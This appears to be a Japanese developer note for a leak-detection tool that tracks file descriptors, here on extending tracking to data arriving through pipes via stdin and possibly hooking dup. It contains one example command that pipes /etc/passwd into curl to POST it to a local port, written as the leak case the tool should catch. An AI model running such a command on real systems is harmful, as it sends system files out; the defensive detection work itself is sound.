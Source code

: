 ## パイプへの対応

今まで、パイプから入ってきたデータを追跡できなかった。
```
cat /etc/passwd | curl -X POST -d @- localhost:9999
```
パイプを通してデータを読むとき、標準入力なのでfdは0。
標準入力は(fd 0)はopen(2)しなくても、プログラム起動したときにOSが開けてくれている。
よって、明示的にfdsetに0を追加して、追跡対象としなければならない。

しかし、単にfd 0をfdsetに追加するだけであ、下記のような無害な例も情報漏洩だと検知してしまう。
```
seq 100 | curl -X POST -d @- localhost:9999
```

よって、dupなりをフックすることによって、入ってきたデータがどこ経由であるかわかる？
- catのところでfdとファイル名が紐づく
- あとはdupもフックすることでなんとかならない？？
